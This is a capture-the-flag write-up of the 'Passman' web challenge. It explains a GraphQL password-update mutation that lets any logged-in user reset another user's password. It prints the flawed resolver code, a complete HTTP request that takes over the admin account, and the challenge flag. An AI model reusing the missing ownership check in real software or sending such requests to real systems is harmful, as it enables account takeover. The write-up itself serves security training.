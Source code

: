 # Passman :: Easy

## Scenario

```
Pandora discovered the presence of a mole within the ministry.
To proceed with caution, she must obtain the master control password for the ministry, which is stored in a password manager.
Can you hack into the password manager?
```

## Solve

![](/images/passman-source-tree.png)

When we begin this challenge, we arrive on this landing page:  

![](/images/passman_login.png)

We can `Login` and `Register` a new account.  
Let's inspect the logic behind these functionalities in the source.  
These are handled by `GraphQL` mutations.  

These mutations are in the `helper/GraphQLHelper.js` file.  
Three mutations are available pertaining to the authentication of users:  

- `RegisterUser`: Handles the creation of a new user.  
- `LoginUser`: Handles the authentication of a user.  
- `UpdatePassword`: Handles the password update functionality for a user.  

There is a logic flaw in the `UpdatePassword` mutation.  
Let's take a look:  

```javascript
        UpdatePassword: {
            type: ResponseType,
            args: {
                username: { type: new GraphQLNonNull(GraphQLString) },
                password: { type: new GraphQLNonNull(GraphQLString) }
            },
            resolve: async (root, args, request) => {
                return new Promise((resolve, reject) => {
                    if (!request.user) return reject(new GraphQLError('Authentication required!'));

                    db.updatePassword(args.username, args.password)
                        .then(() => resolve(response("Password updated successfully!")))
                        .catch(err => reject(new GraphQLError(err)));
                });
            }
        },
```

This feature does not validate that the initiator is the target of the password change.  

We can see that it check if `request.user` exists.  
But then it uses `args.username` to specify which user to reset.  

Letting us change the password for any user.  

Here is the request used to changed the `admin` password:  

```http
POST /graphql HTTP/1.1
Host: 178.128.174.19:30312
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://178.128.174.19:30312/
Content-Type: application/json
Origin: http://178.128.174.19:30312
Content-Length: 192
Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNrdWxsa2lkIiwiaXNfYWRtaW4iOjAsImlhdCI6MTY3OTE0NzI3Mn0.TrQXKqwG2KN2GMkwZwftQz3iw8ftKbusYtPYYtLeLfk;
Connection: close


{"query":"mutation($username: String!, $password: String!) { UpdatePassword(username: $username, password: $password) { message } }","variables":{"username":"admin","password":"taken-over"}}
```

Using this request, will reset the `admin` user's password for `taken-over`.  

Once this request is done, we can authenticate as `admin` and obtain the flag.  

![](/images/passman_flag.png)

```
HTB{1d0r5_4r3_s1mpl3_4nd_1mp4ctful!!}
```

